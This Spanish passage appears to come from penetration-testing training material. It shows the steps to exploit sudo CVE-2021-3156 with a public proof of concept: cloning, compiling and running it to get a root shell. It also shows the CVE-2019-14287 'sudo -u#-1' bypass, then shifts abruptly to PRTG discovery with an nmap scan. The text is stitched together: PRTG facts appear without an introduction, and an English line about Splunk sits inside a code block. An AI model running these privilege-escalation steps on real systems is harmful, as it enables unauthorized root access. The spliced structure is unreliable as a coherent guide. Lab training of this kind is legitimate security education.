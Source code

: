El programa `sudo` se usa en sistemas operativos UNIX como Linux o macOS para iniciar procesos con los derechos de otro usuario. En la mayoría de los casos, se ejecutan comandos que solo están disponibles para administradores. Sirve como una capa adicional de seguridad o una salvaguardia para evitar que el sistema y su contenido sean dañados por usuarios no autorizados. El archivo `/etc/sudoers` especifica qué usuarios o grupos tienen permitido ejecutar programas específicos y con qué privilegios.

```r
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

Una de las últimas vulnerabilidades de `sudo` lleva el CVE-2021-3156 y se basa en una vulnerabilidad de desbordamiento de búfer basado en el heap. Esto afectó a las versiones de sudo:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- y otras

Para averiguar la versión de `sudo`, el siguiente comando es suficiente:

```r
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

Lo interesante de esta vulnerabilidad es que estuvo presente durante más de diez años hasta que fue descubierta. También existe un [Proof-Of-Concept](https://github.com/blasty/CVE-2021-3156) público que se puede usar para esto. Podemos descargarlo en una copia del sistema objetivo que hemos creado o, si tenemos una conexión a internet, directamente en el sistema objetivo.

```r
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

Al ejecutar el exploit, se nos puede mostrar una lista que enumerará todas las versiones disponibles de los sistemas operativos que pueden verse afectadas por esta vulnerabilidad.

```r
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

Podemos averiguar qué versión del sistema operativo estamos usando con el siguiente comando:

```r
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

A continuación, especificamos el ID respectivo para la versión del sistema operativo y ejecutamos el exploit con nuestro payload.

```r
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

## Sudo Policy Bypass

Otra vulnerabilidad fue encontrada en 2019 que afectaba a todas las versiones por debajo de `1.8.28`, lo que permitía la escalación de privilegios incluso con un comando simple. Esta vulnerabilidad tiene el [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) y requiere solo un requisito previo. Tenía que permitir a un usuario en el archivo `/etc/sudoers` ejecutar un comando específico.

```r
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

De hecho, `sudo` también permite ejecutar comandos con IDs de usuario específicos, lo que ejecuta el comando con los privilegios del usuario que lleva el ID especificado. El ID del usuario específico se puede leer del archivo `/etc/passwd`.

```r
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

Así, el ID para el usuario `cry0l1t3` sería `1005`. Si se ingresa un ID negativo (`-1`) en `sudo`, esto resulta en procesar el ID `0`, que solo tiene `root`. Esto, por lo tanto, llevó a una shell de root inmediata.

```r
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

- Según la empresa, es utilizado por 300,000 usuarios en todo el mundo.
- La empresa que fabrica la herramienta, Paessler, ha estado creando soluciones de monitoreo desde 1997.
- Algunas organizaciones que usan PRTG para monitorear sus redes incluyen el Aeropuerto Internacional de Nápoles, Virginia Tech, 7-Eleven, y [más](https://www.paessler.com/company/casestudies).

A lo largo de los años, PRTG ha sufrido [26 vulnerabilidades](https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html) que se les asignaron CVEs. De todas estas, solo cuatro tienen exploits públicos fáciles de encontrar: dos cross-site scripting (XSS), una Denial of Service, y una vulnerabilidad de command injection autenticada que cubriremos en esta sección. Es raro ver PRTG expuesto externamente, pero a menudo nos hemos encontrado con PRTG durante pruebas de penetración internas. El box de liberación semanal de HTB [Netmon](https://0xdf.gitlab.io/2019/06/29/htb-netmon.html) muestra PRTG.

## Discovery/Footprinting/Enumeration

Podemos descubrir rápidamente PRTG desde un escaneo de Nmap. Típicamente se puede encontrar en puertos web comunes como 80, 443, o 8080. Es posible cambiar el puerto de la interfaz web en la sección de Setup cuando se inicia sesión como administrador.

```r
sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Now that we've covered Splunk and PRTG let's move on and discuss some common customer service management and configuration management tools and see how we can abuse them during our engagements.
```